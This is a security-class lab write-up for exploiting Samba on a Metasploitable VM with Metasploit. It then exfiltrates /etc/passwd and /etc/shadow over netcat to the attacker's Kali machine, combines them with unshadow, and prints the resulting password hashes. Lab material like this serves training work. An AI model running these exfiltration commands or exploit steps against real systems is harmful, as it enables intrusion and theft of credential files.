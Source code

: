 # Lab 7 - Exploiting Samba and Exfiltrating Data 

Target IP: 172.16.0.22
Target: Metasploitable

1. Run nmap against the metasploitable machine using the following command.

	`sudo nmap -sV <metasploitable IP> -vvv` (make a note of open ports and services).

	make a note of what port Samba is running.

	`$ sudo nmap -sV 172.16.0.22 -vvv | grep Samba`

	`139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`


2. On your Kali machine launch the metasploit framework.

3. Search for Samba exploits based on version identified in nmap results.

	`msf6> search type:exploit name:samba`

4. Select the exploit matching the version (note that the search option may not provide a lot of information so you will likely have to try multiple exploits to make it work).

5. Select the exploit by using command below.

	`use exploit/xxxxx`

6. Set required options by using set command (hint RHOSTS, and possibly payload).

7. Execute the exploit (this should open a session on the exploited host).

8. Open another Kali terminal window.

9. Launch netcat in a listen mode and redirect output to a file as shown.

	`nc -l -p 4567 > passwd.txt`

10. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/passwd` file.

	`cat /etc/passwd | nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat passwd.txt` 

11. Start another `netcat` command but redirect the contents to `shadow.txt` instead of `passwd.txt` (use the same command as in Step 9 just change `passwd.txt` to `shadow.txt`).

12. From the exploited system terminal (session opened from metasploit exploit you executed) type the following commands to extract the `/etc/shadow file`.

	`cat /etc/shadow| nc <kali ip> 4567` (there will be no progress bar and there should be no error messages).

	go back to the listening netcat window and terminate it using CTRL+C. Cat the contents of the `passwd.txt` file using command below.

	`cat shadow.txt`

13. On your kali box combine the contents of `passwd.txt` and `shadow.txt` using the command below.

	`unshadow passwd.txt shadow.txt > user_logins.txt` 

14. What is the content of the combined `user_logins.txt` file (include screenshot).

	`root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:!:100:101::/var/lib/libuuid:/bin/sh
dhcp:*:101:102::/nonexistent:/bin/false
syslog:*:102:103::/home/syslog:/bin/false
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
sshd:*:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:*:105:113::/var/cache/bind:/bin/false
postfix:*:106:115::/var/spool/postfix:/bin/false
ftp:*:107:65534::/home/ftp:/bin/false
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:!:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:*:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:*:111:65534::/:/bin/false
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
telnetd:*:112:120::/nonexistent:/bin/false
proftpd:!:113:65534::/var/run/proftpd:/bin/false
statd:*:114:65534::/var/lib/nfs:/bin/false`


